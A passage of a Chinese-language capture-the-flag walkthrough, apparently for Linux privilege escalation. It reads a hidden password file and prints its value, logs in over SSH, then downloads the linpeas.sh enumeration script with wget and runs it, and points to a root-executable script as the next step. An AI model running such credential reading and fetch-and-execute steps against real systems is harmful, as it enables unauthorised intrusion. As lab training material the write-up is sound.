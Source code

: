找到了密码：

```bash
$ cd /home/void
$ ls -la
total 48
drwx------ 5 void void 4096 Mar 13 15:26 .
drwxr-xr-x 4 root root 4096 Jan 30 10:35 ..
lrwxrwxrwx 1 root root    9 Jan 30 12:35 .bash_history -> /dev/null
-rw-r--r-- 1 void void  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 void void 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 void void 4096 Jan 30 10:43 .local
-rwx------ 1 void void   18 Jan 30 17:26 .pass
-rwxr-xr-x 1 void void  153 Mar 13 09:10 payload.sh
-rw-r--r-- 1 void void  807 Apr 23  2023 .profile
-rw------- 1 void void    7 Mar 13 14:03 .python_history
drwxrwxrwx 2 void void 4096 Mar 13 13:48 .ssh
-rwx------ 1 void void   32 Jan 31 11:38 user.txt
drwx------ 2 void void 4096 Jan 30 10:44 web-void
$ cat .pass
Cg78F6WT8HkSBiG71
```

#### ssh登录void

```bash
ssh void@10.161.61.130
```

传一个`linpeans.sh`信息搜集一下：

```bash
-bash-5.2$ cd /tmp
-bash-5.2$ wget http://10.161.61.130:8888/linpeas.sh
--2024-03-15 20:19:28--  http://10.161.61.130:8888/linpeas.sh
Connecting to 10.161.61.130:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 332111 (324K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh              100%[==============================>] 324.33K  --.-KB/s    in 0.004s  

2024-03-15 20:19:28 (80.2 MB/s) - ‘linpeas.sh’ saved [332111/332111]

-bash-5.2$ chmod +x linpeas.sh
-bash-5.2$ ./linpeas.sh
```

找到了几个可疑文件：`0anacron`、`/scripts/Quasar`后者不需要密码就可以以root权限执行！！

![image-20240316022408325](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249804.png)

且没有gdb：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249805.png" alt="image-20240316022436904" style="zoom:50%;" />
